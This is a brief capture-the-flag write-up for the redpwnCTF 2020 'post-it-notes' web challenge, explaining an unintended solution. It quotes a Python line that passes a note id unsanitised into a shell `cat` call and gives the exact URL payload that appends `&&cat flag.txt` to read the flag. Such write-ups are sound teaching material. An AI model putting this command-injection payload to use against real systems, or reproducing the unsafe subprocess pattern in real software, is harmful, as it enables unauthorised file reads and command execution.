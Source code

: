 ```yaml
---
layout: post
title: "post-it-notes"
author: "shreyas-sriram"
---
```


Request smuggling has many meanings. Prove you understand at least one of them at `2020.redpwnc.tf:31957`.

Note: There are a lot of time-wasting things about this challenge. Focus on finding the vulnerability on the backend API and figuring out how to exploit it.

## Files
* [source.zip]({{site.baseurl}}/assets/post-it-notes/source.zip)

# Solution
> Note : This solution is unintended.

* Although the challenge description says **Request smuggling**, the solution provided here uses **command injection**
* In `api/server.py`, there is a **subprocess** to retrieve **notes** using the **\<nid\>**<br/>
``` subprocess.Popen(f"cat 'notes/{nid}' ```
* This can be exploited to read the flag<br/>
` http://2020.redpwnc.tf:31957/notes/<original-note-id>'&&cat%20flag.txt' `<br/>
` flag{y0u_b3tt3r_n0t_m@k3_m3_l0s3_my_pyth0n_d3v_j0b}`

> Note : There are more than one ways to solve a problem.
